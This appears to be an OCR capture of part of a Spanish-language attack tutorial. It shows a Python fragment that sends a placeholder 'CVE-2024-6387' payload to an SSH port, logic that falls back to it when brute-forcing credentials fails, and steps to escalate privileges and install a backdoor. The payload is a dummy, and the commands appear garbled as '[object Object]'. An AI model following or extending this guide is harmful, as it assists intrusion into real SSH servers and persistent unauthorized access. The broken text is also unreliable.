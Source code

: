   ```bash./exploit <IP> 22
        sock.connect((ip, port))
        payload = b"SSH-2.0-OpenSSH_8.9\n" + b"\x00" * 1000  # Reemplaza con PoC real
        sock.send(payload)
        response = sock.recv(1024)
        print(f"[*] Exploit CVE-2024-6387 enviado, respuesta: {response.decode()}")
        sock.close()
        return True
    except:
        print("[!] Exploit CVE-2024-6387 falló")
        return False


Y modificamain para llamarla si no se encuentran credenciales:

python

if not found:
    print("[!] No se encontraron credenciales, intentando CVE-2024-6387")
    try_cve_2024_6387(ip, port)


4. Ejecutar el ataque combinado


    Corre el script:

    bash

    [object Object]



    Si la fuerza bruta falla, intentará el exploit automáticamente.

    Si el exploit funciona, obtendrás una shell o acceso directo (depende del PoC).


5. Post-explotación

Si el exploit o la fuerza bruta te dan acceso:


    Verifica privilegios:

    bash

[object Object]



Escala privilegios:

bash

[object Object]



Instala backdoor:

bash

    [object Object]
  ```